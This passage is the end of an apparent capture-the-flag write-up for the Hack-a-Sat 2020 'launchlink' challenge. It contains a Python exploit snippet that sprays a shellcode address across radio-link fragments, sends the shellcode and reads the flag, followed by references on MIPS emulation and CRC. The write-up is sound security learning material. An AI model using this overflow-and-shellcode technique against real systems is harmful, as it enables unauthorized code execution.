 ```python
    break_addr = 0xa00ffed8
    for i in range(5, 10):
        # two bytes added for alignment
        rll.send_fragment(b'\x00\x00' + p32(shellcode_addr)*((rll.fragment_size-2)>>2),
                          fragment_no=i)
    print(f'[*] Sent fragments [5-9] (shellcode address)')

    for i in range(4, 5):
        rll.send_fragment(shellcode.ljust(rll.fragment_size), fragment_no=i, end=1)
    print(f'[*] Sent fragment [4] (shellcode)')

    flag = mac.recv(110).rstrip(b'\x00')
    print(f'[*] Flag: {flag}')
```
{% include aligner.html images="/hackasat2020launchlink/flag.png" width=100 %}

# References

[1] [http://vmips.sourceforge.net/vmips/doc/vmips.html](http://vmips.sourceforge.net/vmips/doc/vmips.html)

[2] [http://citeseerx.ist.psu.edu/viewdoc/download?doi=10.1.1.534.3259&rep=rep1&type=pdf](http://citeseerx.ist.psu.edu/viewdoc/download?doi=10.1.1.534.3259&rep=rep1&type=pdf)

[3] [http://www.cs.uwm.edu/classes/cs315/Bacon/Lecture/HTML/ch05s03.html](http://www.cs.uwm.edu/classes/cs315/Bacon/Lecture/HTML/ch05s03.html)

[https://www.cs.cmu.edu/afs/cs/academic/class/15740-f97/public/doc/mips-isa.pdf](https://www.cs.cmu.edu/afs/cs/academic/class/15740-f97/public/doc/mips-isa.pdf)

[https://crccalc.com/](https://crccalc.com/)
